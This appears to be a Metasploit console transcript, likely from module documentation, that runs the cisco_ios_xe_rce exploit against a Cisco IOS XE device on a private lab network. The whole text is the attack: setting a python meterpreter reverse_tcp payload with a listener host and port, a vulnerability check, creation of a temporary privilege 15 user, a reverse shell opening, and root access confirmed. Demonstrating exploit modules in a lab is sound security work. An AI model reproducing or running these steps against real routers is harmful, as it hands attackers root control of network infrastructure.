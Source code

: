```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 1
target => 1
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > show options

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.59    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/cisco_ios_xe_rce) > check
[+] 192.168.86.59:443 - The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'pJaWZBTl' with password 'KlcuLPaJ'
[*] Removing user 'pJaWZBTl'
[*] Sending stage (24772 bytes) to 192.168.86.59
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.59:56572) at 2023-11-06 16:42:36 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : router
OS           : Linux 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```